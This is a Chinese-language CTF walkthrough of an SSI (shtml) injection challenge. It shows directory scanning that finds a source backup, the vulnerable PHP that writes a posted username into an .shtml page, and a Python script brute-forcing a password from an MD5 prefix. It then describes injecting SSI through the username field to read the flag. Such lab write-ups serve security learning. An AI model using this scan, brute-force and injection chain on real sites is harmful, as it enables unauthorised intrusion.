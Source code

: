 ### shtml 注入

话不多说，直接上题

![](https://pic1.imgdb.cn/item/67b3e3aed0e0a243d4005a21.png)

打开页面如下

![](https://pic1.imgdb.cn/item/67b3e3d7d0e0a243d4005a24.png)

扫描后台拿到备份文件

```shell
F:\Tools\WEB\Python-Tools\dirsearch-master>python3 dirsearch.py -u "http://82e12f9d-f5e7-44cd-b5bc-13e1f75f81a9.node3.buuoj.cn" -t 10 -s 1

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 10 | Wordlist size: 10849

Error Log: F:\Tools\WEB\Python-Tools\dirsearch-master\logs\errors-21-04-16_16-37-46.log

Target: http://82e12f9d-f5e7-44cd-b5bc-13e1f75f81a9.node3.buuoj.cn/

Output File: F:\Tools\WEB\Python-Tools\dirsearch-master\reports\82e12f9d-f5e7-44cd-b5bc-13e1f75f81a9.node3.buuoj.cn\_21-04-16_16-37-46.txt

[16:37:46] Starting:
[16:37:46] 200 -    1KB - /index.php.swp
```

拿到源码

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ($admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

关键点在，密码的MD5值的前六位需要等于 6d0bc1

编写脚本爆破

```python
import hashlib
import threading

thread_ = threading.Semaphore(30)

def abc(left,right):
    thread_.acquire()
    admin = '6d0bc1'
    for i in range(left, right):
        s = hashlib.md5(str(i).encode('utf-8')).hexdigest()
        if s[:6] == admin:
            print(i)
    thread_.release()


if __name__ == '__main__':
    thread_list = []
    thread_count = 5
    for i in range(thread_count):
        t = threading.Thread(target=abc, args=(i*2000000,(i+1)*2000000))
        thread_list.append(t)
    
    for t in thread_list:
        t.start()
    for t in thread_list:
        t.join()
```

得到可用密码

```
2020666
2305004
9162671
```

输入 admin 和密码登录

![](https://pic1.imgdb.cn/item/67b3e4b8d0e0a243d4005a3a.png)

发现响应头中有 shtml

![](https://pic1.imgdb.cn/item/67b3e4ccd0e0a243d4005a3c.png)

想到利用 shtml 的 [SSI 注入漏洞](http://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/)，去访问这个页面

![](https://pic1.imgdb.cn/item/67b3e53fd0e0a243d4005a4a.png)

用户名回显到了页面上，利用这个参数去注入

![](https://pic1.imgdb.cn/item/67b3e6e1d0e0a243d4005ae6.png)

再次访问拿到 flag 文件名

![](https://pic1.imgdb.cn/item/67b3e6f1d0e0a243d4005aec.png)

构造 payload 访问 flag

![](https://pic1.imgdb.cn/item/67b3e74fd0e0a243d4005b1a.png)

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b3e764d0e0a243d4005b1c.png)